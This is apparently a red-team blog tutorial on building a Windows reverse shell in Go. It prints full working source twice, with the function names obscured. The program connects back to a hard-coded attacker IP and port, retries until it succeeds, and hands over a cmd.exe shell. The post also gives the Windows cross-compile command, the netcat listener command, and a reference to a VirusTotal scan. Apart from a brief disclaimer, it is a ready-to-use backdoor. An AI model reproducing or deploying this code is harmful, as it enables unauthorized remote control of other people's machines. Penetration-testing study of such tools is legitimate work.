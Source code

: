 ```yaml
---
layout: post
title: "2024-06-19 Reverse Shell in Go"
date: 2024-06-19
categories: Windows Reverse Shell
tags: redteam, mitre, killchain, cpent, LPT, cpts, oscp, exploit
permalink: /go-revshell/
---
```

# Building a Reverse Shell in Go

In this tutorial, we'll explore how to create a basic reverse shell in Go. A reverse shell is a type of shell where the target machine communicates back to the attacking machine. This can be useful for remote administration or accessing a system that is behind a firewall.

## Understanding the Code

Let's break down the code step by step:

 ### Package and Imports

```go
package main

import (
    "fmt"
    "net"
    "os"
    "os/exec"
    "time"
)
```

- `package main`: Indicates that this Go file is the main package, which can be executed.
- `import`: Importing necessary packages for our program. We import `fmt` for formatting, `net` for networking operations, `os` for operating system functionalities, `os/exec` for executing external commands, and `time` for time-related operations.

### Variables

```go
var (
    a1 = "192.168.23.129"
    a2 = 4444
)
```

- `a1` and `a2` are variables storing the IP address and port number, respectively, of the attacker's machine.

### Function `e1()`

```go
func e1() {
    if a1 == "0.0.0.0" || a2 == 0 {
        fmt.Fprintln(os.Stderr, "[ERROR] a1 and/or a2 not defined.")
        os.Exit(1)
    }
}
```

- `e1()` checks if the IP address (`a1`) or port number (`a2`) is not defined and exits the program with an error message if they are not defined.

### Function `e2()`

```go
func e2() net.Conn {
    var c net.Conn
    var err error
    for {
        c, err = net.Dial("tcp", fmt.Sprintf("%s:%d", a1, a2))
        if err == nil {
            break
        }
        time.Sleep(5 * time.Second)
    }
    return c
}
```

- `e2()` attempts to establish a TCP connection to the attacker's machine (`a1:a2`). It retries every 5 seconds until a successful connection is made and returns the connection object `c`.

### Function `e3()`

```go
func e3(c net.Conn) {
    cmd := exec.Command("cmd")
    cmd.Stdin = c
    cmd.Stdout = c
    cmd.Stderr = c
    err := cmd.Start()
    if err != nil {
        fmt.Fprintln(os.Stderr, "[ERROR] cmd start failed:", err)
        os.Exit(1)
    }
    cmd.Wait()
}
```

- `e3()` executes the `cmd` command on the target machine, redirecting its standard input, output, and error to the network connection `c`.

### Main Function

```go
func main() {
    e1()
    c := e2()
    e3(c)
}
```

- The `main()` function calls `e1()` to check if the IP address and port are defined, then establishes a connection using `e2()` and executes the `cmd` command using `e3()`.

### Running the Code

To run this code, you need to replace `a1` and `a2` with your own IP address and port number. Compile the code using `go build` and run the resulting executable on the target machine.

In your attacker machine, you can listen for incoming connections using tools like `nc` or `netcat`:

```bash
nc -nlvp 4444
```

Once the connection is established, you should see a command prompt from the target machine on your attacker machine, allowing you to execute commands remotely.

This is a basic example of a reverse shell in Go. Remember, using such techniques for unauthorized access is illegal and unethical. Always ensure you have proper authorization before attempting any remote administration.

```go
package main

import (
	"fmt"
	"net"
	"os"
	"os/exec"
	"time"
)

var (
	a1 = "192.168.23.129"
	a2 = 4444
)

func e1() {
	if a1 == "0.0.0.0" || a2 == 0 {
		fmt.Fprintln(os.Stderr, "[ERROR] a1 and/or a2 not defined.")
		os.Exit(1)
	}
}

func e2() net.Conn {
	var c net.Conn
	var err error
	for {
		c, err = net.Dial("tcp", fmt.Sprintf("%s:%d", a1, a2))
		if err == nil {
			break
		}
		time.Sleep(5 * time.Second)
	}
	return c
}

func e3(c net.Conn) {
	cmd := exec.Command("cmd")
	cmd.Stdin = c
	cmd.Stdout = c
	cmd.Stderr = c
	err := cmd.Start()
	if err != nil {
		fmt.Fprintln(os.Stderr, "[ERROR] cmd start failed:", err)
		os.Exit(1)
	}
	cmd.Wait()
}

func main() {
	e1()
	c := e2()
	e3(c)
}


```
## Compilation
```sh
GOOS=windows GOARCH=amd64 go build -o crust.exe curb.go
```


### Virustotal Scan
![alt text](https://github.com/psyrun/psyrun.github.io/blob/master/_posts/go-revshell.png)
    
 ### session

![alt text](https://github.com/psyrun/psyrun.github.io/blob/master/_posts/go-revshell-2.png)


#peacout #opensource


